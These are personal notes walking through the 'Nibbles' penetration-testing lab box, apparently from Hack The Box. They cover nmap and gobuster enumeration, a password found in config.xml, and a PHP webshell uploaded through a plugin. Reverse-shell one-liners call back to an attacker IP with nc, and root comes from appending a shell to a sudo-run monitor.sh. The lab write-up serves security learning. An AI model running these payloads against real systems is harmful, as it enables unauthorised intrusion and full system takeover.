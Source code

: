 
Basic Enumeration
- Nmap scan
	- `nmap -sV --open -oA nibbles_initial_scan 10.129.42.190`
		- sV: default top 1000 ports
		- open: only return open ports
		- oA: ouptut all scan formats, including XML output, greppable output, text output.. -> go into the file called nibbles_initial_scan
	- Then, we can do one for ALL ports and leave it running in the background.
		- `nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190`
	- Finally, for the ports we found, do a full service scan
		- `nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190`
- Banner grabbing
	- nc -nv 10.129.42.190 80 
		- See a HTTP port that's open

Web enumeration
- We saw an open HTTP port
- Can use **whatweb** to identify the web application in use
	- `whatweb 10.129.42.190`
	- nothing much shown
- Open in browser
	- Nothing, but **opening page source** with Ctrl + U shows 
		- /nibbleblog...
	- Can also check with curl
		- `curl http://10.129.42.190`
			- Sends a GET request to the server at given IP, at default HTTP port 80
		- also see that there's a nibbleblog directory
	- Now try with whatweb again
		- `whatweb http://10.129.42.190/nibbleblog`
	- We see some technolgoies in use including PHP, and that the site is running NibbleBlog

Directory enumeration
- Directory busting
	- `gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt`
- Digging around finds that there is a login page, and a username of `admin`
- We see a users.xml file, which shows blacklisting if too many attempts
	- Cannot brute force with eg. hydra
- We find a config.xml which has cases of the word `nibbles`
	- This turns out to be the admin password

Exploit enumeration
- We find an exploit online for Nibbles, with the correct version too
- We find different pages, with a Pluigins page that let us upload picture.
	- Maybe can use to upload PHP code?
	- We can test for code execution with the following snippet
		- `<?php system('id'); ?>`
	- Then we save the code to a file and upload it
		- Errors, but seems like uploading worked
	- Try to find it
		- found at `http://<host>/nibbleblog/content/private/plugins/my_image/`
		- `curl ...` -> We get the code execution!!!
	- So we add a bash reverse shell on-liner to our PHP script
		- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f`
		- which, after added to the script looks like
		- `<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>`
	- Then we start a nc listener in our terminal
		- `nc -lvnp 9443`
	- cURL the image again or browse to it in Firefox to execute the reverse shell

Upgrading shell
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Then want to upload linenum.sh
- https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
- Download this using wget on local machine
- Then run a server on local machine
	- python3 -m http.server 8000
- Then on remote, download 
	- wget https://localip:8000/LinEnum.sh
- chmod +x and run it

Final steps
- we see that monitor.sh can be run without root privileges
	- so, just add a reverse shell one liner at the end of it and **execute with sudo**, to ge reverse shell back as root user
	- `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh`
		- tee write s the input from echo into a file 
		- -a is append mode, so it's appended to the end of monitor.sh
		- IMPORTANT: append to files to prevent overwriting and screwing things up.





Notes
- need to save the program as a .php file, not just any random thing
- curl the program to get execution
- when i run the monitor.sh with sudo, acting as root user, so running the reverse shells command appended to the monitor.sh script will give root access.



KIV:
- Hydra password brute forcing
- Repeater
- Burp suite
- CeWL to crawl through website, then use these information to crack password hash with Hashcat


